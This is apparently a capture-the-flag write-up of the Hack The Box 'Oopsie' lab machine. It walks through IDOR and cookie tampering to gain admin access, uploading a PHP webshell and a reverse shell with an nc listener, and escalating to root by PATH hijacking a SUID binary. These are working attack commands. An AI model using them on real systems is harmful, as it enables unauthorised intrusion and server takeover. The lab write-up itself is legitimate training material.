# OOPSIE

STARTING POINT - TIER 2

## Enumeration

**Nmap scan**

```bash
nmap -sC -sV 10.129.24.202
```



## Exploitation

**Check page-source**



- Suspicious directory `/cdn-cgi/login`

**Access `/cdn-cgi/login`**




- Login as Guest



- Look at the url `http://10.129.24.202/cdn-cgi/login/admin.php?content=accounts&id=2`. What if we change the `id` to `id=1`?



- BOOM!!!



- I realized that website cookies are saved using the user's Access ID. So let's change it to admin's Access ID and refresh the website to see the result.





- Now you can access to uploads page.

**Create a simple webshell `webshell.php`**

```bash
<?php system($_GET["cmd"]); ?>
```

**Directories scanning**

```bash
gobuster dir -u http://10.129.24.202/ -w /usr/share/dirb/wordlists/small.txt -x php
```



**Access to endpoint `/uploads`**

`http://10.129.24.202/uploads/webshell.php`



- Successfully access webshell then RCE the server.



- `cmd=ls /home/robert`

**Read file**

`cmd=ls /home/robert/user.txt`

**Let's upload a reverse shell into the server**

- You can find a reverse shell in `/usr/share/webshells/php/php-reverse-shell.php`.



- Change these 2 lines.

**Upload webshell and connect**

```bash
nc -lnvp 4444
```

`http://10.129.24.202/uploads/php-reverse-shell.php`



**Upgrade shell to `/bin/bash`**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



**Read file is shared with robert user**



**Switch to robert user**

```bash
su robert
```





- Found interested group

**Access `/usr/bin/bugtracker`**





**Privileges Escalation**

```bash
robert@oopsie:/tmp$ echo "/bin/sh" > cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
robert@oopsie:/tmp$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
---------------

# whoami
root
```


